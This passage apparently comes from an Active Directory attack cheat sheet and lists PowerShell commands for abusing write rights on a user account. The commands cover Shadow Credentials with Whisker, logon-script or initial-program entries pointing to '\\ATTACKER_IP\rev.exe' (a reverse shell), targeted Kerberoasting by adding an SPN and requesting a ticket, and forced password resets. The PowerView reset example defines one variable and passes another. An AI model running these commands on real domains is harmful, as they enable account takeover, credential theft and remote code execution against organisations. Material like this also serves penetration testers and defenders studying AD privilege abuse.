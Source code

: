 #### On an user

**WriteProperty**

* ShadowCredentials

```powershell
Whisker.exe add /target:<target> /domain:domain.local /dc:dc.domain.local /path:C:\path\to\file.pfx /password:"Password123!"
```

* Logon Script

```powershell
#PowerView
Set-DomainObject <target> -Set @{'mstsinitialprogram'='\\ATTACKER_IP\rev.exe'} -Verbose

#AD module
Set-ADObject -SamAccountName '<target>' -PropertyName scriptpath -PropertyValue "\\ATTACKER_IP\rev.exe"
```

* Targeted Kerberoasting

We can then request a ST without special privileges. The ST can then be "**Kerberoasted**".

```powershell
#Verify if the user already has a SPN
Get-DomainUser -Identity <target> | select serviceprincipalname
    #Using ActiveDirectory module
Get-ADUser -Identity <target> -Properties ServicePrincipalName | select ServicePrincipalName
```

**New SPN must be unique in the domain**

```powershell
#Set the SPN
Set-DomainObject -Identity user -Set @{serviceprincipalname='ops/whatever1'}
    #Using ActiveDirectory module
Set-ADUser -Identity user -ServicePrincipalNames @{Add='ops/whatever1'} 

#Request the ticket
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
    #From PowerView
Request-SPNTicket
```

**User-Force-Change-Password**

With enough permissions on a user, we can change his password

```powershell
net user <target> Password123! /domain

#With PowerView
$pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("domain\user1", $pass)
Set-DomainUserPassword "<target>" -AccountPassword $UserPassword -Credential $cred
```
